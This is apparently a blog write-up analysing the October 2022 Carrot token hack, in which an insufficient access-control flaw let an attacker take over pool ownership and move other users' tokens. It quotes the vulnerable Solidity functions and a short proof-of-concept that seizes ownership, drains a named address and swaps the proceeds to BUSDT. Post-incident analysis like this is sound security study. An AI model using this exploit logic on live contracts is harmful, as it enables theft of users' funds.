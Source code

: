 # Carrot

![euler Image](../images/CarrotWhy.drawio.png)


## What's Carrot?
a rewards platform where users can earn bitcoin simply by supporting the brands and creators they love. Creators of all sorts
(writers, podcasters, open-source collectives...) can publish challenges to be carried out by their audiences and offer bitcoin for their completion.

## Amount stolen
**$31,318 BUSDT**

2022-10-10

## Vulnerability
Insufficient access control


## Analysis

The Carrot token relies on `_allowances[sender][_msgSender()].sub(amount, "ERC20: transfer amount exceeds allowance")`
to prevent unapproved token transfers,

the `sub` function in the `beforetransfer` method will subtract the `amount` from the allowance. If the subtraction results
a value less than zero indicates that the transfer amount exceeds the allowance limit and will fail.

This pattern involves the Action-Check pattern, where you act, in this case transferring tokens without explicitly checking for permission. 
The actual check is deferred to a later point in the code, the `sub` function on the allowances mapping.

This final check can be avoided if the `_msgSender()` on the `_isExcludedFromFee` mapping is set to true, 
giving the `_msgSender()` the ability to move any user's tokens at its will. 

```solidity
  function transferFrom(
    address sender,
    address recipient,
    uint256 amount
  ) public virtual override returns (bool) {
    _beforeTransfer(_msgSender(),recipient,amount);
    
    if(_isExcludedFromFee[_msgSender()]){
        _transfer(sender, recipient, amount);
        return true;
    }
    _transfer(sender, recipient, amount);
    _approve(
        sender,
        _msgSender(),
        _allowances[sender][_msgSender()].sub(
            amount,
            "ERC20: transfer amount exceeds allowance"
        )
    );
    return true;
  }
```

An address can be added to the `_isExcludedFromFee` mapping under the condition that the caller of a transfer is the owner of an 
external pool contract and the counter variable is set to 0. 
This counter variable serves as a safety measure, preventing any other party from adding their address after an exploit has executed this action.


```solidity
   function _beforeTransfer( address from,address to,uint256 amount) private{
  if(from.isContract())
  if(ownership(pool).owner() == from && counter ==0){
      _isExcludedFromFee[from] = true;
      counter++;
  }          
  _beforeTokenTransfer(from, to, amount);
}
```

The Pool address is set via the onlyOwner initPool() function on the token.

to pass the `onlyOwner` check, we can gain acces of the contract by the following function.


```solidity
   function transReward(bytes memory data) public {
      pool.functionCall(data);
   }
```

It seems that the function lacks access control and is public for everyone, so in the concluding step, the ownership of the pool contract is established by invoking the `transReward()` function on the token with the selector `"0xbf699b4b"`, which in English is the "change 
owner" function and the desired address is specified as `"0x5575406ef6b15eec1986c412b9fbe144522c45ae"`.



# proof of concept (PoC)

```solidity
        // Call vulnerable transReward() to set this contract as owner. No auth control
        CARROT_TOKEN.transReward(abi.encodeWithSelector(0xbf699b4b, address(this)));

        // Call transferFrom() to steal CARROT tokens using the same amount used in the exploit
        CARROT_TOKEN.transferFrom(
            0x00B433800970286CF08F34C96cf07f35412F1161, address(this), 310_344_736_073_087_429_864_760
        );

        // Swap all stolen Carrot to BUSDT
        _CARROTToBUSDT();
```

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Carrot_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
